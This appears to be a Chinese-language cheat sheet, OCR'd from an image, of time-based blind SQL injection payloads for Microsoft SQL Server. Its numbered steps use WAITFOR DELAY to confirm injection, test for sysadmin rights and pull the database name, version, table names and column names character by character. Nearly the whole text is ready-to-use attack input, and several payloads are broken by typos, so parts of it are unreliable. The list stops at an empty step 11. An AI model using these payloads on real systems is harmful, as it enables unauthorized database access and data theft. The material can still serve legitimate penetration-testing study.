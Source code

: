 ### time 盲注

```
**1.判断是否存在注入** 
id=1 WAITFOR DELAY '0:0:5'--+

**2.判断权限** 
# 如果是sysadmin权限，则延时5秒
id=1 if(select IS_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5'--+

**3.查询当前数据库的长度和名字** 
# 二分法查询长度
id=1 if(len(db_name()))>40 WAITFOR DELAY '0:0:5'--+
# 查询数据库名字
# substring截取字符串的位置，用ascii转为数字进行二分法查询
id=1 if(ascii(substring(db_name(),1,1)))>50 WAITFOR DELAY '0:0:5'--+

**4.查询数据库的版本** 
id=1 if(ascii(substring((select @@version),1,1))=77 WAITFOR DELAY '0:0:5'--+ # ascii 77 = M

**5.查询表个数** 
id=1 if((select count(*) from SysObjects where xtype='u')>5) WAITFOR DELAY '0:0:5'--+
# 当前数据库表的个数为6

**6.查询第一个表的长度** 
# 查询第一个表
id=1 and select top 1 name from SysObjects where xtype='u' 
# 查询结果为1
(select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u')
# 利用and，进行判断，9为表长度的猜测
and len(name)=9
# 第一个表名长度为6
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u') and len(name)=9)=1) WAITFOR DELAY '0:0:5'--+
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u') and len(name)=6)=1) WAITFOR DELAY '0:0:10'--+

**7.查询第一个表的表名** 
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u') and ascii(substring(name,1,1))>90)=1) WAITFOR DELAY '0:0:5'--+
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u') and ascii(substring(name,1,1))=101)=1) WAITFOR DELAY '0:0:5'--+

**8.查询第二个表的长度** 
# 查询第一个表名，去除emails, emails为第一个表名
select top 1 name from SysObjects where xtype='u' and name not in ('emails')
# 同理，第三个表则 and name not in ('emails','uagents')
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u' and name not in ('emials')) and len(name)=6)<>0) WAITFOR DELAY '0:0:5'--+

**9.查询第二个表的名字** 
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u' and name not in ('emails')) and ascii(substring(name,1,1)>100)!=1) WAITFOR DELAY '0:0:5'--+
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u' and name not in ('emails')) and ascii(substring(name,1,1)>100)!=0) WAITFOR DELAY '0:0:5'--+

**10.查询第一个表中的字段** 
# and name not in ('')查询第二个字段的时候可以直接在其中，排除第一个字段名
id=1 if((select count(*) from syscolumns where name in (select top 1 name from syscolumns where id = object_id('emails') and name not in ('')) and ascii(substring(name,1,1))=1)！=0) WAITFOR DELAY '0:0:1'--+

**11.查询字段类型** 
```